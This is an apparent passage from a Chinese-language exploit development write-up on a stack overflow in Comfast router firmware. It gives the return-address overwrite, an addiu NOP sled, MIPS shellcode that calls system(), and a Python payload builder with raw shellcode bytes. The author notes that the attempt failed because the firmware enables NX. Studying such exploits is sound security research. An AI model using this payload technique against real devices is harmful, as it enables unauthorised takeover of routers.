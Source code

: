 1. 首先，更改栈返回地址将程序跳转至 0x2B2A6654，具体跳到哪里无所谓，只要跳到 `addiu $a0, $zero, 0x457` * 0xff 这个区间里面的任意地址就行. 
2. 而后继续写下 0xff 个填充指令 `addiu $a0, $zero, 0x457` 用于缓冲  
3. 准备完毕后，构造命令的执行 Payload，并将构建完毕的 Payload 接入填充指令的尾部，进而后续执行(0x2B4002F0 是 system 函数的地址，此处未开启栈随机化，因此暂时拿 0x2B4002F0 作为其地址)  
	```mips
	li 	$a0, 0x2B2A7A58
	li 	$t9, 0x2B4002F0
	jalr $t9
	```
4. 写入要执行的命令，例如 `mkdir /12345`，在此处是不得手动添加 `\x00` 在末尾的

测试版本的 Shellcode 如下所示

```python
data0  = b'A' * 248
data0 += p32(0x2B2A7660)
data0 += b'A' * 0xff0
data0 += b"\x57\x04\x04\x24" * 0xff			#写入 addiu $a0, $zero, 0x457
data0 += b"\x2a\x2b\x04\x3c\x58\x7a\x84\x34\x40\x2b\x19\x3c\xf0\x02\x39\x37\x09\xf8\x20\x03"
data0 += b"mkdir /12345"
```

可以发现PC成功跳转，但是继续运行就报错！这是为什么？后续经 checksec 才发现，Comfast 最新版本的固件居然开启了 NX 保护，因此现在无法在栈上执行任何代码了(明明之前还没开的)

(`li $a0, 0x457` 即为 `addiu $a0, $zero, 0x457`)

![/image/cfac100/2.png](/image/cfac100/2.png)  

![/image/cfac100/3.png](/image/cfac100/3.png)  

不过这倒无所谓，换种方法继续构造罢了  
